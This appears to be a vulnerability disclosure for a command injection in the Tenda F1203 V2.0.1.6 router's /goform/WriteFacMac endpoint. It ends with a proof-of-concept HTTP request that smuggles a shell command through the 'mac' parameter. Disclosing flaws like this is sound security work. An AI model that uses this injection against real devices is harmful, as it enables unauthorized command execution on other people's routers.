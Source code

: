 # Tenda F1203 V2.0.1.6 was found to contain a command injection vulnerability in formWriteFacMac

## Description

`Tenda`  Router **F1203 V2.0.1.6** was found to contain a command injection vulnerability in `formWriteFacMac`.This vulnerability allows an attacker to execute arbitrary commands through the "mac" parameter.

## Firmware information

* Manufacturer's address: https://www.tenda.com.cn/

* Firmware download address : https://www.tenda.com.cn/download/detail-2494.html

## Affected version

![image-20221201234503984](images/01.png)

## Vulnerability details

This vulnerability lies in the `/goform/WriteFacMac` page，The details are shown below:

![image-20221202010903295](images/02.png)

## POC


```
POST /goform/WriteFacMac HTTP/1.1
Host: 192.168.204.143
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: user=admin
Connection: close
Content-Length: 4110

mac=00:01:02:11:22:33;echo%20hello
```
